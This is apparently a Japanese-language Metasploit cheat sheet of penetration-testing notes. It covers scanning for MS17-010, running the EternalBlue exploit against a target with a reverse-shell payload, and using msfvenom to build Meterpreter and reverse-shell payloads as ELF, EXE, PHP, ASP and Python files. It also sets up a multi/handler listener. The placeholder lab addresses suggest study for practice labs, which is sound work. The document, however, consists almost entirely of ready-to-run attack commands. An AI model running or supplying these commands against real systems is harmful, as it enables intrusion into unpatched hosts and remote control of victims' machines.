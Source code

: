 ```bash
# ワークフロー
use auxiliary/scanner/smb/smb_ms17_010
hosts -R # db_nmapで保存された情報からRHOSTSをセットする

# NetBIOSサービスを検索する
services -S netbios
# HTTP, FTP, SMB, SSH, RDP を検索するのがおすすめ
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [target IP]
show payloads
set payload 2 # payload/generic/shell_reverse_tcp
exploit
shell

# Ctrl+zでバックグラウンド実行
# Ctrl+cでキャンセル
```

### Msfvenom

```bash
# ペイロード一覧表示
msfvenom -l payloads
```

#### 出力フォーマット

```bash
# 出力フォーマット一覧表示
msfvenom --list formats
```

#### Encoders（ペイロードをエンコードする）

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=[ローカルIP] -f raw -e php/base64
```

#### Handlers

```bash
# PHPシェル生成
msfvenom -p php/reverse_php LHOST=[ローカルIP] LPORT=7777 -f raw > reverse_shell.php

# マルチハンドラー
use exploit/multi/handler
```

#### その他のペイロード

```bash
# Linux Executable and Linkable Format（elf）
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
# Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```
